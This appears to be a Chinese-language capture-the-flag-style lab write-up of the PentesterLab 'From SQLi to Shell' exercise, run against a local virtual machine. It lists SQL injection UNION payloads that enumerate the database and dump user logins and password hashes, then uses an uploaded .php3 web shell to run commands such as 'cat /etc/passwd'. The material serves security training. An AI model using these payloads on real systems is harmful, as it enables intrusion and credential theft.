


## SQL注入

### 1.实验环境

- 攻击者主机kali(10.0.2.4) 

- 服务器（10.0.2.7）

从https://pentesterlab.com/exercises/from_sqli_to_shell下载ios镜像并安装

- 主机能ping通服务器

- 扫描能到达的ip

### 2.端口扫描

- nmap扫描端口

### 3.SQL注入

- 查看源代码

- 检查是否有sql漏洞

`cat.php?id=1`

`cat.php?id=2`

`cat.php?id=3`

`cat.php?id=1'`

`cat.php?id=1 and 1=1`

通过这个结果我们可以知道该网站存在sql注入漏洞

- 检查SQL数据库是否支持union查询

`cat.php?id=1 UNION SELECT 1`

`cat.php?id=1 UNION SELECT 1,2,3,4`

`cat.php?id=1 UNION SELECT 1，2，3，4，5`

通过这样的枚举，我们可以知道SQL查询对应的返回结果集合的列字段数量为4

- 查看数据库版本信息

`cat.php?id=1 UNION SELECT 1,@@version,3,4`

- 当前用户信息

`cat.php?id=1 UNION SELECT 1,@@current_user(),3,4`

- 当前数据库信息

`cat.php?id=1 UNION SELECT 1,@@database(),3,4`

- 查看所有表的列表

  `cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

  

- 查看所有列的表信息

`cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

- 连接表和列。在user表中看到有用户和密码列。

`cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

- 获取密码

`cat.php?id=0 UNION SELECT 1,concat(id,':',login,':',password),3,4 FROM users`

- 破解密码

- 登陆账户

破解后用用户名和破解得到的密码登陆账户

然后进入可得到下列页面

- 构建一个php文件

- 上传文件

我们看到上面文件上传不成功，将文件后缀名改为php3后上传才能成功。

- 查看内核

`admin/uploads/well.php3?cmd=uname`

- 查看当前目录文件

`admin/uploads/well.php3?cmd=ls u`

- 获取靶机的用户列表

`admin/uploads/well.php3?cmd=cat /etc/passwd`

